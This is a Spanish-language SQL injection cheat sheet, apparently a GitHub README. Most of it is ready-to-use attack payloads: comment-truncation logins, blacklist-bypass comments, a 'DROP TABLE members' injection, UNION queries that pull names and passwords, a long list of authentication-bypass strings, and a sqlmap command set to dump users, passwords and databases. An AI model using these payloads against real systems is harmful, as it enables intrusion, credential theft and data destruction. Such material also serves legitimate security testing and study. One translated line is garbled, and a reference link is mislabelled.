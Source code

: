 # SQL Injection
> Sql Injection ó Inyección SQL es una vulnerabilidad que permite al atacante enviar o “inyectar” instrucciones SQL de forma maliciosa y malintencionada dentro del código SQL programado para la manipulación de bases de datos.
## Referencia de sintaxis, ejemplos de ataques y trucos de inyección de SQL
```
Username: admin'--
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password' 
```
Comente el resto de la consulta al no cerrarlos o puede usar para omitir la lista negra, eliminar espacios, ofuscar y determinar las versiones de la base de datos.
```
/*Comment Here*/ (SM)
DROP/*comment*/sampletable
DR/**/OP/*bypass blacklisting*/sampletable
SELECT/*avoid-spaces*/password/**/FROM/**/Members
/*! MYSQL Special SQL *
```
## Ejemplos de ataques de inyección SQL de comentarios en línea clásicos
```
ID: 10; DROP TABLE members /* 
SELECT /*!32302 1/0, */ 1 FROM tablename 
```
Simplemente deshazte de otras cosas al final de la consulta. Igual que 10; Miembros de DROP TABLE -
## Ataques de muestra de detección de versiones de MySQL
```
ID: /*!32302 10*/
ID: 10 
SELECT /*!32302 1/0, */ 1 FROM tablename 
```
Lanzará una división por error 0 si la versión de MySQL es superior a 3.23.02
## Con union, realiza consultas SQL entre tablas. Básicamente, puede envenenar la consulta para devolver registros de otra tabla.
```
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```
## Omisión(bypass) de autenticación
```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
## Inyección de SQL usando SQLmap
```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```
Puedes descargar SQLMap a través de su página Web [sqlmap.org](http://sqlmap.org/) o usar GIT:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev*
```
## Referencias 
* [OpenWebinars](https://openwebinars.net/blog/que-es-sql-injection/)
* [Netsparker](https://openwebinars.net/blog/que-es-sql-injection/)
